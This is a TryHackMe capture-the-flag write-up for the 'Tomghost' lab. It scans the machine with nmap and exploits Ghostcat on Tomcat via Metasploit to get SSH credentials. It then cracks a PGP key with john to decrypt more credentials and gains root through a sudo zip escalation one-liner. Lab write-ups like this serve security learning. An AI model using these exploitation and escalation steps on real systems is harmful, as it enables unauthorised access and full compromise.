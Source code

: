 # Tomghost tryhackme write-up



### Nmap

```bash
# Nmap 7.91 scan initiated Wed Jan 19 20:20:11 2022 as: nmap -sV -sC -oA nmap/tomghost 10.10.247.170
Nmap scan report for 10.10.247.170
Host is up (0.23s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 19 20:21:10 2022 -- 1 IP address (1 host up) scanned in 58.99 seconds

```

Tomcat exploit: https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

run metasploit search exploit ghost use exploit run your get ssh passwd

	skyfuck:8730281lkjlkjdqlksalks

### skyfuck to merlin

Using PGP encryption encrypt the file _credential.pgp_  to decrypt

Import the key:

	gpg --import tryhackme.asc

Decrypt the file:

	gpg --decrypt credentials.pgp

but its ask passwd 

lets do crack tryhackme.asc using gpg2john

```bash
┌──(arundhanush㉿kali)-[~/CTF/THM/tomghost]
└─$ gpg2john tryhackme.asc > hash                                       

File tryhackme.asc
                                                                                                                                                                      
┌──(arundhanush㉿kali)-[~/CTF/THM/tomghost]
└─$ cat hash         
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
                                                                                                                                                                      
┌──(arundhanush㉿kali)-[~/CTF/THM/tomghost]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2022-01-19 21:09) 2.380g/s 2552p/s 2552c/s 2552C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
                           
```

now enter the passwd 

```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

we got it

## Privesc

Privesc using zip

```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip

```

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

```bash
merlin@ubuntu:~$ mktemp -u
/tmp/tmp.b6PBkM4k8w
merlin@ubuntu:~$ sudo zip /tmp/tmp.b6PBkM4k8w /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root

```

roooted!

## References

https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

https://www.dummies.com/article/technology/computers/operating-systems/linux/how-to-use-gpg-in-linux-to-encrypt-files-255873

